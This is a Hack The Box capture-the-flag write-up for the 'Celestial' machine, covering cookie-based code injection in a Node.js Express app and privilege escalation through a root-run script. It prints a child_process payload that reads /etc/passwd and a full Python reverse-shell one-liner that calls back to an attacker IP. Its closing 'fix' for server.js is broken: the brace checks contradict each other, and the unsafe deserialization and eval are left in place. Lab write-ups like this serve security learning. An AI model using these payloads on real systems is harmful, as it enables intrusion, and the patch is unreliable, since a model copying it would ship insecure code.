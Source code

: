 ```yaml
---
title: HTB Machine Celestial Writeup
date: 2025-05-10
categories: [CTF, HTB]
tags: [CTF, HTB, Machine, Medium]
description: HTB Machine Celestial Writeup
---
```

# Recon
## Nmap
```bash
nmap -Pn -v -p- -sV --min-rate 1000 celestial.htb -oN celestial_nmap.txt
```

```
PORT     STATE SERVICE VERSION
3000/tcp open  ppp?
```

# Initial Foothold and User.txt
Main page shows the text "404" on first visit. On subsequent visits the following text is shown.
![Screenshot](/assets/img/celestial-writeup-screenshot/image_1.png)

Examining the HTTP header shows a base64 encoded cookie value
![Screenshot](/assets/img/celestial-writeup-screenshot/image_2.png)

![Screenshot](/assets/img/celestial-writeup-screenshot/image_3.png)

2 of the JSON attributes seems to be reflected on the main page
- username
- num

The num parameter seems to be concatenated. This is tested by setting num to 3.
![Screenshot](/assets/img/celestial-writeup-screenshot/image_4.png)

The server seems to be using templates to reflect these 2 value. By trying the common payload for Server-side Template Injection "\{7\*7\}", the server evaluated the multiplication provided and printed 49.
![Screenshot](/assets/img/celestial-writeup-screenshot/image_5.png)

This proves that SSTI is possible. As an attempt to determine the exact backend framework and template engine used, an error was triggered which returned verbose error message.
![Screenshot](/assets/img/celestial-writeup-screenshot/image_6.png)
The error message
```html
<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="utf-8">
<title>Error</title>
</head>
<body>
<pre>SyntaxError: Unexpected token }<br> &nbsp; &nbsp;at /home/sun/server.js:13:29<br> &nbsp; &nbsp;at Layer.handle [as handle_request] (/home/sun/node_modules/express/lib/router/layer.js:95:5)<br> &nbsp; &nbsp;at next (/home/sun/node_modules/express/lib/router/route.js:137:13)<br> &nbsp; &nbsp;at Route.dispatch (/home/sun/node_modules/express/lib/router/route.js:112:3)<br> &nbsp; &nbsp;at Layer.handle [as handle_request] (/home/sun/node_modules/express/lib/router/layer.js:95:5)<br> &nbsp; &nbsp;at /home/sun/node_modules/express/lib/router/index.js:281:22<br> &nbsp; &nbsp;at Function.process_params (/home/sun/node_modules/express/lib/router/index.js:335:12)<br> &nbsp; &nbsp;at next (/home/sun/node_modules/express/lib/router/index.js:275:10)<br> &nbsp; &nbsp;at cookieParser (/home/sun/node_modules/cookie-parser/index.js:70:5)<br> &nbsp; &nbsp;at Layer.handle [as handle_request] (/home/sun/node_modules/express/lib/router/layer.js:95:5)</pre>
</body>
</html>
```

From this we can see that:
- The server is running Express Node.js web framework
- There is a user "sun"
However, it still doesn't show what template engine is used.

A script was made to try perform fuzzing on the num parameter and see if any special characters will trigger the same syntax error. The following is the result:
```
-
.
""
{}
/
```

Also some global variables seems to return valid results (e.g. global).
![Screenshot](/assets/img/celestial-writeup-screenshot/image_7.png)

Through more googling, the following payload from HackTricks worked, which is intended for the template engine Jade.
```javascript
root.process.mainModule.require('child_process').spawnSync('cat', ['/etc/passwd']).stdout
```
Source: https://book.hacktricks.wiki/en/pentesting-web/ssti-server-side-template-injection/index.html#jade-nodejs

Output:
![Screenshot](/assets/img/celestial-writeup-screenshot/image_8.png)

It was found to be quite difficult to just run a one-line command for reverse shell execution (escaping quotes are painful). So from here the following steps were done to obtain a reverse shell:
1. Confirm that python3 is installed on the server (which python3)
2. Use revshells.com to create a python reverse shell
3. Issue a command to the server to download the reverse shell
4. Listen on port 443 (on attacker machine)
5. Execute the python reverse shell payload downloaded

Payload used:
```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.73",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")
```

![Screenshot](/assets/img/celestial-writeup-screenshot/image_9.png)

user.txt at /home/sun/user.txt
# Root.txt
On the user's home directory, there was one file that stood out as it seems to be written by root.
![Screenshot](/assets/img/celestial-writeup-screenshot/image_10.png)

There is also another python script that seems to print out the exact words
![Screenshot](/assets/img/celestial-writeup-screenshot/image_11.png)

To do a simple test to check if the script.py was indeed running by root as a background process, the script.py was modified to print out something different
```
print "No it's not running..."
```

After 5 minutes, the output.txt file changed to the modified content
![Screenshot](/assets/img/celestial-writeup-screenshot/image_12.png)
After the first execution, the process is also shown when listing running processes. This shows that the script is indeed ran by root.
![Screenshot](/assets/img/celestial-writeup-screenshot/image_13.png)

By using the same python3 reverse shell payload used during initial access (changing connection port to 445), a reverse shell was obtained running as root.
![Screenshot](/assets/img/celestial-writeup-screenshot/image_14.png)

# Just for Fun
## Try to fix vulnerable server.js script
The following is the content of server.js which is the main script of the web server (in /home/sun/server.js).
```javascript
var express = require('express');
var cookieParser = require('cookie-parser');
var escape = require('escape-html');
var serialize = require('node-serialize');
var app = express();
app.use(cookieParser())
 
app.get('/', function(req, res) {
 if (req.cookies.profile) {
   var str = new Buffer(req.cookies.profile, 'base64').toString();
   var obj = serialize.unserialize(str);
   if (obj.username) { 
     var sum = eval(obj.num + obj.num);
     res.send("Hey " + obj.username + " " + obj.num + " + " + obj.num + " is " + sum);
   }else{
     res.send("An error occurred...invalid username type"); 
   }
}else {
     res.cookie('profile', "eyJ1c2VybmFtZSI6IkR1bW15IiwiY291bnRyeSI6IklkayBQcm9iYWJseSBTb21ld2hlcmUgRHVtYiIsImNpdHkiOiJMYW1ldG93biIsIm51bSI6IjIifQ==", {
       maxAge: 900000,
       httpOnly: true
     });
 }
 res.send("<h1>404</h1>");
});
app.listen(3000);
```

We can see that the vulnerability lies in  ```var sum = eval(obj.num + obj.num);```, where the user input ```obj.num``` is directly evaluated without any sanitation.

The most straightforward way to fix it is to check for the bracket characters ```{``` and ```}``` and prevent them from passing to ```eval()```

```javascript
var express = require('express');
var cookieParser = require('cookie-parser');
var escape = require('escape-html');
var serialize = require('node-serialize');
var app = express();
app.use(cookieParser())
 
app.get('/', function(req, res) {
 if (req.cookies.profile) {
   var str = new Buffer(req.cookies.profile, 'base64').toString();
   var obj = serialize.unserialize(str);
   if (obj.username && obj.num.indexOf("{") == 0 && obj.num.indexOf("}") == 0) { 
     var sum = eval(obj.num + obj.num);
     res.send("Hey " + obj.username + " " + obj.num + " + " + obj.num + " is " + sum);
   }else{
     res.send("An error occurred...invalid username type"); 
   }
}else {
     res.cookie('profile', "eyJ1c2VybmFtZSI6IkR1bW15IiwiY291bnRyeSI6IklkayBQcm9iYWJseSBTb21ld2hlcmUgRHVtYiIsImNpdHkiOiJMYW1ldG93biIsIm51bSI6IjIifQ==", {
       maxAge: 900000,
       httpOnly: true
     });
 }
 res.send("<h1>404</h1>");
});
app.listen(3000);
```
